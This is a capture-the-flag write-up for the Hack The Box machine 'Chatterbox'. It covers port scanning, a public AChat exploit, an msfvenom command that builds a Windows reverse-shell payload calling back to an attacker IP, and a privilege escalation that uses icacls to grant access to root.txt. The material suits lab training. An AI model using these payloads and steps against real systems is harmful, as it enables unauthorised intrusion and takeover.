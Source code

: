 # [Chatterbox](https://app.hackthebox.com/machines/chatterbox)

```bash
nmap -p- --min-rate 10000 10.10.10.74 -Pn 
```

![Alt text](img/image.png)


After knowing open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p135,139,445,9255,9256 10.10.10.74 -Pn 
```

![Alt text](img/image-1.png)

I know from the results that is 'AChat' chat system, let's search publicly known exploit.

![Alt text](img/image-2.png)


I grab '36025' Python script which gives me shell.

But, I need to modify script's content with reverse shell code by generating via `msfvenom` command

```bash
msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.16.8 LPORT=1337 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python
```


![Alt text](img/image-3.png)


I also change Socket's address via my target machine's IP Address.

Then, run the exploit.

![Alt text](img/image-4.png)

I got reverse shell from port (1337).

![Alt text](img/image-5.png)


user.txt

![Alt text](img/image-6.png)


While I want to read `root.txt` file, but it says '**Access denied'**.


But I see that 'Alfred' user has privilege on 'Desktop' folder of administrator user.

```bash
icacls Desktop
```

![Alt text](img/image-7.png)


Then, I look at **File Ownership information** of 'root.txt' file via `dir /q` command.

![Alt text](img/image-8.png)


It means, I can give full permission to 'root.txt' file for 'alfred' user.

```bash
icacls root.txt /grant Alfred:F
```

I check that delegation works or not via `icacls` command.

![Alt text](img/image-9.png)


root.txt

![Alt text](img/image-10.png)